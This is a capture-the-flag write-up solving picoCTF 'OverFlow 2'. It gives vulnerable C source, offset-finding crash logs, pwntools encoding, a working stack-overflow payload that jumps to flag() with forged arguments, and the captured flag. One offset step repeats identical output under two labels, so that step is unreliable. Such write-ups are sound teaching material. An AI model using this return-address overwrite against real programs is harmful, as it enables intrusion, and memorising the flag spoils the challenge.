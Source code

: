 # OverFlow 2
## Question
>Now try overwriting arguments. Can you get the flag from this [program](files/vuln)? You can find it in `/problems/overflow-2_4_bbfcc061b1e9e5e8a7e313593365d434` on the shell server. [Source](files/vuln.c).

## Hint
>GDB can print the stack after you send arguments

# Solution
## Source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```

## Offset
Let's find out the offset for our buffer overflow. We'll start at `176` (buffer size) and will increase by 4 bytes until we see `41414141` erasing the stack address:

At 188, we're almost there:
~~~~
$ python -c "print 'A'*192" | ./vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
unknown@ubuntu:/data$ dmesg | tail
[ 1560.990116] traps: vuln[2567] trap invalid opcode ip:8048700 sp:ffd50e80 error:0 in vuln[8048000+1000]
[ 1588.337345] vuln[2572]: segfault at 42424242 ip 0000000042424242 sp 00000000ff925a30 error 14 in libc-2.27.so[f7db1000+1d5000]
[ 1588.337353] Code: Bad RIP value.
[ 1959.109560] vuln[2708]: segfault at 42424242 ip 0000000042424242 sp 00000000ffdf3cb4 error 14 in libc-2.27.so[f7dd8000+1d5000]
[ 1959.109568] Code: Bad RIP value.
[ 3629.832816] vuln[2806]: segfault at 4141413d ip 000000000804872a sp 000000004141413d error 4 in vuln[8048000+1000]
[ 3629.832837] Code: ff ff 83 c4 10 83 ec 0c 8d 83 31 e8 ff ff 50 e8 4c fd ff ff 83 c4 10 e8 5a ff ff ff b8 00 00 00 00 8d 65 f8 59 5b 5d 8d 61 fc <c3> 66 90 66 90 90 55 57 56 53 e8 e7 fd ff ff 81 c3 c7 18 00 00 83
[ 3648.733934] traps: vuln[2811] trap invalid opcode ip:8048700 sp:ffdd6240 error:0 in vuln[8048000+1000]
[ 3659.629659] vuln[2816]: segfault at 41414141 ip 0000000041414141 sp 00000000ff84c5c0 error 14 in libc-2.27.so[f7dcd000+1d5000]
[ 3659.629668] Code: Bad RIP value.
~~~~

We have `41414141` with 192 bytes:
~~~~
$ python -c "print 'A'*192" | ./vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
unknown@ubuntu:/data$ dmesg | tail
[ 1560.990116] traps: vuln[2567] trap invalid opcode ip:8048700 sp:ffd50e80 error:0 in vuln[8048000+1000]
[ 1588.337345] vuln[2572]: segfault at 42424242 ip 0000000042424242 sp 00000000ff925a30 error 14 in libc-2.27.so[f7db1000+1d5000]
[ 1588.337353] Code: Bad RIP value.
[ 1959.109560] vuln[2708]: segfault at 42424242 ip 0000000042424242 sp 00000000ffdf3cb4 error 14 in libc-2.27.so[f7dd8000+1d5000]
[ 1959.109568] Code: Bad RIP value.
[ 3629.832816] vuln[2806]: segfault at 4141413d ip 000000000804872a sp 000000004141413d error 4 in vuln[8048000+1000]
[ 3629.832837] Code: ff ff 83 c4 10 83 ec 0c 8d 83 31 e8 ff ff 50 e8 4c fd ff ff 83 c4 10 e8 5a ff ff ff b8 00 00 00 00 8d 65 f8 59 5b 5d 8d 61 fc <c3> 66 90 66 90 90 55 57 56 53 e8 e7 fd ff ff 81 c3 c7 18 00 00 83
[ 3648.733934] traps: vuln[2811] trap invalid opcode ip:8048700 sp:ffdd6240 error:0 in vuln[8048000+1000]
[ 3659.629659] vuln[2816]: segfault at 41414141 ip 0000000041414141 sp 00000000ff84c5c0 error 14 in libc-2.27.so[f7dcd000+1d5000]
[ 3659.629668] Code: Bad RIP value.
~~~~

Our offset will be 188.

## Addresses and variables
Let's first identify the address of the `flag` function, and encode it:
~~~~
$ readelf -s vuln | grep flag
    73: 080485e6   144 FUNC    GLOBAL DEFAULT   14 flag
$ python -c "import pwn;print(pwn.p32(0x80485e6))"
b'\xe6\x85\x04\x08'
~~~~

Now, let's encode the 2 variables:
~~~~
$ python
>>> import pwn
>>> pwn.p32(0xDEADBEEF)
b'\xef\xbe\xad\xde'
>>> pwn.p32(0xC0DED00D)
b'\r\xd0\xde\xc0'
~~~~

To exploit the vulnerability, we'll create the following chain:
* 'B' * 188 to overflow the string buffer
* '\xe6\x85\x04\x08' is the address of the `flag` function where we want to jump
* 'B'*4: we need to add 4 bytes for the return address of the `flag` function (stack = EBP > return address > 1st arg > 2nd arg)
* '\xef\xbe\xad\xde': our first argument
* '\r\xd0\xde\xc0': our second argument

## Exploit
~~~~
$ python -c "print 'B'*188 + '\xe6\x85\x04\x08' + 'B'*4 + '\xef\xbe\xad\xde' + '\r\xd0\xde\xc0'" | ./vuln
Please enter your string: 
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB���BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBﾭ�
picoCTF{arg5_and_r3turn598632d70}Segmentation fault (core dumped)
~~~~

# Flag
`picoCTF{arg5_and_r3turn598632d70}`
